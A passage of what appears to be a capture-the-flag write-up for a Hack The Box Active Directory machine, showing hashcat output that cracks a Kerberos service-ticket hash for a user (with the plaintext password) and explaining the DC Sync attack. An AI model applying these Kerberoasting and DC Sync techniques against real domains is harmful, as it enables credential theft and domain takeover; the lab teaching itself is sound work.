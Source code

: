 ```bash
348fd6f1ffc9967d0a22ec0401fb5f7562fdd9b8f5dae72ce5899f83ac92fba7db0a6aee0ff56f0b3f4a5fc60252c4388e69ed719fece8d227c2413adb8a9dffdc4c9d48c6b112ecaadcb2037257422baa00d4468e3eb9c582b1eb3c61c60822a2539d215c9b4a9fb1249cca3cc185a535326c6574555a83405f62c7227b7225edee0fc2ba5da1f617dcbbc2407cd9d029b5e3eaa236a1cdd4:limpbizkit
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....a1cdd4
Time.Started.....: Sun Feb  9 19:19:17 2025, (1 sec)
Started: Sun Feb  9 19:18:46 2025
Stopped: Sun Feb  9 19:19:19 2025
```
Now, for `Ethan`, we can see **DC Sync** privileges on the `Administrator` account.  

<img src="Imgs/image7.png" alt="error loading image">

### What is DC Sync?  
**DC Sync** is an attack technique that allows an attacker to **imitate a Domain Controller (DC)** and request password hashes from Active Directory.  

Instead of dumping hashes from memory (like with `Mimikatz`'s `lsadump::sam`), **DC Sync** pulls them directly from the domain database by abusing Active Directory replication features.
